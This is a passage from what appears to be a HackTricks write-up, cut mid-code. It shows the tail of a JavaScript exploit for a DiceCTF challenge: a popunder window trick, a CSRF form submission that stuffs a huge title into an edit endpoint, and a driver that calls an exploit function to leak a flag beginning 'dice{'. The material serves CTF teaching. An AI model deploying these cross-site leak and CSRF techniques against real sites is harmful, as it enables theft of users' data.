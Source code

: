 ```html
        }
      }
    }
  }

  const popunder = () => {
    if (window.opener) {
      WINBG = window.opener
    } else {
      WINBG = window.open(location.href, (target = "_blank"))
      location = `about:blank`
    }
  }

  const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
    x.title.value = "A".repeat(1000000)
    x.submit()
  }

  window.onload = () => {
    let p = new URL(location).searchParams
    if (!p.has("i")) {
      console.log(`no INSTANCE`)
      return
    }
    INSTANCE = p.get("i")
    // step 1
    if (p.has("csrf")) {
      csrf()
      return
    }
    // step 2
    if (p.has("exploit")) {
      // window open is ok in headless :)
      popunder()

      exploit("dice{")
    }
  }
</script>
```

{{#include ../../banners/hacktricks-training.md}}
